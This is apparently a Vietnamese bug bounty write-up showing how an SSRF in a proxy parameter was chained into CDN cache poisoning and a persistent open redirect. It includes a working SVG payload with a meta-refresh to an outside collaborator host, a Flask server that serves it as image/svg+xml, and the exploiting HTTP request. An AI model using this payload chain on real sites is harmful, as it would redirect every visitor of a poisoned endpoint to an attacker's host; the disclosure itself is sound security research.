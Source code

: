 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug Flaw

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---
## 1. Lỗ Hổng Server-Side Request Forgery(SSRF) Dẫn Đến Cache Poisoning

Lỗ hổng Server-Side Request Forgery (SSRF) được phát hiện trong tham số `url` với chức năng `Proxy Controller`. Nguyên nhân là do ứng dụng thiếu cơ chế xác thực và ủy quyền hiệu quả, cho phép bất kỳ người dùng nào cũng có thể sử dụng chức năng này.

Kẻ tấn công có thể lợi dụng lỗ hổng bằng cách cung cấp một domain tùy ý `(attacker domain)`, buộc máy chủ phải tương tác với các dịch vụ bên ngoài. Tuy nhiên, lỗ hổng này không thể được khai thác để truy cập các tài nguyên nội bộ của máy chủ (như localhost) do ứng dụng đã có bộ lọc `(filter)`.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/0.jpg)

Vì lý do đó, `Bugcrowd` đã hạ mức độ nghiêm trọng của lỗ hổng xuống `P5 (Informational)`, chỉ mang tính chất thông tin thay vì là một rủi ro bảo mật nghiêm trọng.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---
## 2. Lỗ Hổng Cache Poisoning 

Lỗ hổng Cache Poisoning được phát hiện qua phản hồi của server. Các header như `X-Cache: Hit from CloudFront` và `Age: 5` cùng với `Status 200 OK` cho thấy server đang sử dụng CDN (Content Delivery Network) và nội dung đang được cache.

Ban đầu, khi thử thay đổi `Content-Type` trong header của server độc hại thành `text/html`, server trả về `Status 400 Bad Request` vì không chấp nhận loại nội dung này.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

Tuy nhiên, khi chuyển sang sử dụng `Content-Type: image/svg+xml`, server đã phản hồi với `Status 200 OK`. Điều này chứng tỏ server chấp nhận và xử lý thành công loại nội dung này, mở ra khả năng khai thác lỗ hổng.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

Kết quả là, tôi đã tấn công Cache Poisoning thành công.

Tuy nhiên, sau khi nghiên cứu sâu hơn, tôi nhận thấy lỗ hổng này mang tính chất Logic Bug Flaw. Cụ thể, server chỉ cho phép gửi yêu cầu đến một endpoint tối đa 3 lần. Sau 3 lần đó, cache sẽ được lưu lại vĩnh viễn. Khi người dùng khác truy cập vào endpoint này, server sẽ luôn phục vụ nội dung độc hại đã được lưu trong cache từ trước, thay vì xử lý yêu cầu mới. Đây chính là điểm yếu trong logic của ứng dụng.

Lưu ý: Tôi đã sử dụng công cụ [requestrepo.com](https://requestrepo.com/) để chỉnh sửa các header trong quá trình thử nghiệm.
![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---
## 3. Tác Động và Kịch Bản Tấn Công (Impact & Attack Scenario)

### Tác Động (Impact)

Mặc dù lỗ hổng `Cache Poisoning` cho phép kẻ tấn công chèn nội dung độc hại vào bộ nhớ `cache`, nhưng việc khai thác trực tiếp để thực hiện `XSS Stored` đã bị chặn bởi chính sách bảo mật nội dung `CSP (Content Security Policy)` của hệ thống. Vì vậy, tôi đã chuyển hướng nghiên cứu để tìm một kịch bản tấn công khác khả thi hơn.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/8.png)

Sau khi phân tích, tôi nhận thấy có thể tận dụng khả năng chèn nội dung HTML để gây ra tấn công `Chuyển Hướng Mở (Open Redirect)` bằng cách sử dụng `meta tag`.

### Kịch Bản Tấn Công (Attack Scenario)

Để chứng minh kịch bản này, tôi đã thiết lập một máy chủ độc hại để lưu lại nhật ký truy cập (log).

Tôi đã tạo một file poc.xml trên máy chủ độc hại với nội dung sau:

`poc.xml`
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

File này thực chất là một `SVG (một dạng XML)` có chứa thẻ `<foreignObject>`, cho phép nhúng nội dung HTML. Nhờ `namespace http://www.w3.org/1999/xhtml`, thẻ `<meta http-equiv="refresh">` sẽ được trình duyệt của người dùng xử lý, buộc họ tự động chuyển hướng đến một URL do kẻ tấn công chỉ định.

### Quá trình khai thác:

1. Tôi đã thiết lập máy chủ độc hại bằng Flask để phục vụ file `poc.xml` với `header Content-Type: image/svg+xml`. 
```python
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```

2. Sử dụng `Burp Suite Repeater`, tôi lợi dụng lỗ hổng `SSRF` bằng cách cung cấp địa chỉ của máy chủ độc hại `(http://{ip}:{port}/poc.xml) `vào tham số `u`.
```http
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb-demo.com 
Cookie: None
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

3. Khi server dễ bị tổn thương `(VulnWeb-demo.com)` thực hiện yêu cầu, nó sẽ lấy toàn bộ nội dung từ `file poc.xml` của tôi và lưu vào `cache`.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/6.jpg)

4. Kết quả là, server đã trả về nội dung độc hại từ máy chủ của tôi.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 4. Flow diagram

### Một số lưu ý về lỗ hổng
Lỗ hổng này có thể dẫn đến tấn công Open Redirect, nghe có vẻ low-impact, nhưng vấn đề nằm ở chỗ payload có thể được lưu vĩnh viễn trong cache. Điều này khiến mỗi khi người dùng truy cập vào endpoint đó, họ đều bị chuyển hướng, tạo ra một cuộc tấn công hàng loạt.

![alt text](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)

## 5. Link Tham Khảo:

`https://www.w3.org/TR/SVG11/`

`https://www.w3.org/TR/xhtml1/`

`https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started#serving_svg`

`https://portswigger.net/web-security/web-cache-poisoning`

`https://owasp.org/www-community/attacks/Server_Side_Request_Forgery`


## 6. Proof-of-Concept (POC) - Video

![](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/video.gif)
